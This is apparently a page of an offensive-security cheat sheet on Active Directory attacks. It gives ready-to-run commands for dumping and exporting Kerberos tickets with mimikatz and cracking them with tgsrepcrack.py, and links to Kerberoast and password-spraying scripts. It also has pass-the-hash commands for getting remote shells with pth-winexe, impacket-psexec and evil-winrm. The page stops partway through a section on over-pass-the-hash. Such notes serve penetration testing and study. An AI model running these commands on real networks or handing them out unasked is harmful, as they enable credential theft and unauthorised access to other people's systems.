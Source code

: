 ## Service Account Attacks

  Some user tickets that are stored in memory
  Display all cached Kerberos tickets for the current user
```
./mimikatz.exe "sekurlsa::tickets"
```
 Export service tickets from memory
```
./mimikatz.exe "kerberos::list /export"
```
Wordlist Attack with tgsrepcrack.py to get the clear text password for the service account
```
# sudo apt update && sudo apt install kerberoast
# Note: Install 
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt <ticket.kirbi>
```
or  
[Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

## Password Spraying

[Spray-Passwords](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)
```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
```

## Active Directory Lateral Movement

### Pass the Hash

  Allows an attacker to authenticate to a remote system or service via a user's NTLM hash
```sh
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:<hash_ntlm> //<IP> cmd
```

  Remote Access - impacket-psexec  
```sh
impacket-psexec '<domain>/<user>'@<IP> -hashes ':<hash>'
impacket-psexec '<domain>/<user>'@<IP>
```

  Remote Access + evil-winrm  
```sh
evil-winrm -i <IP> -u <user> -H <hash>
```

### Over Pass the Hash

Allows an attacker to abuse an NTLM user hash to obtain a full Kerberos ticket granting ticket (TGT) or service ticket, which grants us access to another machine or service as that user
